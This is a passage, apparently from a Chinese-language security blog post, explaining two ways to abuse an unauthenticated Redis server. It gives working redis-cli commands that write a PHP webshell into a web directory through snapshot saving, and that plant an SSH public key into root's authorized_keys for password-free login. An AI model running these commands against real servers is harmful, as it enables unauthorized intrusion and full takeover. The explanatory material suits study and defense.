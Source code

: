   
  
**6.写shell和计划任务的原理（快照保存）**  
  
写webshell的原理是redis快照保存，解读一下下面这些命令的意思  
```
config set dir /www/wwwroot/1.1.1.1/
set php "\\n\\n<?php phpinfo();?>\\n\\n"
config set dbfilename 1.php
save
```  
  
第一行为设置  
Redis 服务器快照文件（RDB 文件）的目录为1.1.1.1  
  
第二行是  
在 Redis 数据库中创建一个名为 php 的键，并将其值设置为 phpinfo  
  
第三行是  
将 Redis 服务器的快照文件名设置为 1.php  
  
也就是说前三行创建了一个数据快照，内容是phpinfo，并保存在/1.1.1.1/目录下的1.php里  
  
****  
**7.ssh公私钥免密登录**  
  
```
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt
cat 1.txt | redis-cli -h redis地址 -p 6379 -x set crackit

redis-cli -h 192.168.1.10 -p 6379
192.168.1.10:6379> config set dir /root/.ssh/
OK
192.168.1.10:6379> config get dir
1) "dir"
2) "/root/.ssh"
192.168.1.10:6379> config set dbfilename "authorized_keys"
OK
192.168.1.10:6379> save
OK
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPyYALSMZcFwmEsmT94iamxDrekgPic1lUn1mticiagVTns67FQHe39IQ8vmw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5urd4duXnZfRmRCfzPhtFCPyueQjfQOubqZ6taB7CaROI6ULnADqsnzerlEHdB3MYutqerfJu6zszQ/640?wx_fmt=png&from=appmsg "")  
  
算了，这篇不开打赏了，开了流量也一般般。如果师傅们喜欢我们的文章，请点一个在看和赞鼓励一下我们。  
  
